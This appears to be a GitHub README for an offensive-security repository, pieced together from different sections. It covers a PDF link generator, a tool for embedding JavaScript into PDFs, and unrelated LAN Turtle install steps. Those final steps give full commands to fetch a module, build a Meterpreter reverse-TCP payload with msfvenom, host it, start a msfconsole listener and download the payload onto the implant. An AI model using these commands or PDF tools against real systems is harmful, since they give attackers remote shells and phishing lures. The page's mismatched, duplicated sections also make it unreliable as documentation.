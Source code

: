 # pdf2url

<a href="https://streamable.com/arr12g" title="pdf2url"><img src="https://github.com/ATTACKnDEFEND/pdf2url/blob/main/images/pdf2url.png" alt="pdf2url" /></a>

pdf2url is a Python script that generates a PDF file with a clickable link to open a url or download a file. It utilizes the ReportLab library to create the PDF and allows you to specify the text for the link, name of the PDF file and the URL to be opened when the link is clicked.

#### Disclaimer:
This script is intended for educational and informational purposes only. Use it responsibly. The user assumes all responsibility and risk associated with the use of this script.

Prerequisites:
- Python 3.x installed on your system
- `reportlab` library installed (`pip install reportlab`)

Arguments:
-t or --text: Text shown for the link (default: "Click me").
-u or --url: URL to be opened when the link is clicked (required).
-o or --output: Name of the PDF file to be saved (default: "output.pdf").

Example usage:
<br />
`python pdf2url.py -t "Click me" -u "https://www.example.com" -o "mydocument.pdf"`<br />
- NOTE: use double "" quotes

# pdf2url

The code is a Python script that allows you to create a PDF with embedded JavaScript. It provides two main functionalities: creating a blank PDF with a single empty page and inserting JavaScript code into an existing PDF.

#### Disclaimer:
This script is intended for educational and informational purposes only. Use it responsibly. The user assumes all responsibility and risk associated with the use of this script.

Prerequisites:
- Python 3.x installed on your system
- PyPDF2: The code utilizes the PyPDF2 library for working with PDF files. You need to have PyPDF2 installed. You can install it using pip: pip install PyPDF2.

Arguments:
-i or --input: Specifies the input PDF file to which the JavaScript code will be added. If this is not specified a blank pdf file is created.
-j or --javascript: Specifies the JavaScript file containing the code to be embedded.
-o or --output: Specifies the output PDF file name where the modified PDF with embedded JavaScript will be saved. (required).

Example usage:

Inserting JavaScript into an existing PDF -
<br />
`python pdf2url.py -i input.pdf -j script.js -o output.pdf`<br />

Creating a blank PDF and inserting JavaScript -
<br />
`python pdf2url.py -j script.js -o output.pdf`<br />


#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from GitHub**<br />
<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
/etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**2 - On Kali: generate Meterpreter payload with Msfvenom**<br />
<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: start Meterpreter listener**<br />
<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />

